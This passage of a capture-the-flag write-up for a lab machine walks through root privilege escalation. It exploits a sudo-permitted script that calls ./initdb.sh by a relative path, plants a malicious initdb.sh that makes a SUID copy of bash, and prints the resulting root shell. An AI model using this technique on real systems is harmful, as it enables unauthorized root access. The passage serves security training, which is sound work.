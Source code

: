 Finally, it checks if initdb.sh its running and if not, it runs ./initdb.sh to start it:

```bash
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

This is very dangerous since its not calling an absolute path and can execute any bash file in the current directory. I will create initdb.sh in /tmp with a instruction to copy the bash to /tmp and make it SUID. Then, I will execute `/usr/bin/syscheck` to call ./initdb.sh. 

```bash
dvir@headless:/tmp$ cd /tmp
dvir@headless:/tmp$ echo 'cp /bin/bash /tmp; chmod u+s /tmp/bash' > initdb.sh
dvir@headless:/tmp$ chmod +x initdb.sh 
dvir@headless:/tmp$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.00, 0.00, 0.00
Database service is not running. Starting it...
dvir@headless:/tmp$ ls -l bash 
-rwsr-xr-x 1 root root 1265648 Jul 21 20:02 bash
```

Finally, I can execute `/tmp/bash` with `-p` parameter:

```bash
dvir@headless:/tmp$ ./bash -p
bash-5.2# whoami
root
```

And we have access as root! Now we can see root.txt:

```bash
bash-5.2# cd /root/
bash-5.2# cat root.txt 
b0****************************a6
```